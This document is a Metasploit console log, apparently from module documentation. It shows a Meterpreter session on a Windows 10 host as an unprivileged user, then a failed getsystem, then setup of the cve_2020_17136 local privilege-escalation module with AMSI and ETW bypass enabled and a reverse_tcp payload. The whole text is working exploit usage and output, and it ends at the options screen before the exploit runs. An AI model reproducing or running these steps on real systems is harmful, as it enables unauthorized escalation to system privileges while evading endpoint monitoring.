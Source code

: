 ```
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 172.22.152.177:4444
[*] Sending stage (200262 bytes) to 172.22.152.177
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 172.22.152.177:4444) at 2021-01-08 11:17:11 -0600

meterpreter > getuid
Server username: DESKTOP-KUO5CML\normal
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > getsystem
[-] 2001: Operation failed: Access is denied. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/cve_2020_17136
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2020_17136) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/cve_2020_17136) > check
[*] The target appears to be vulnerable. A vulnerable Windows 10 20H1 build was detected!
msf6 exploit(windows/local/cve_2020_17136) > show options

Module options (exploit/windows/local/cve_2020_17136):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   AMSIBYPASS  true             yes       Enable Amsi bypass
   ETWBYPASS   true             yes       Enable Etw bypass
   SESSION     1                yes       The session to run this module on.
   WAIT        5                no        Time in seconds to wait


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows DLL Dropper


```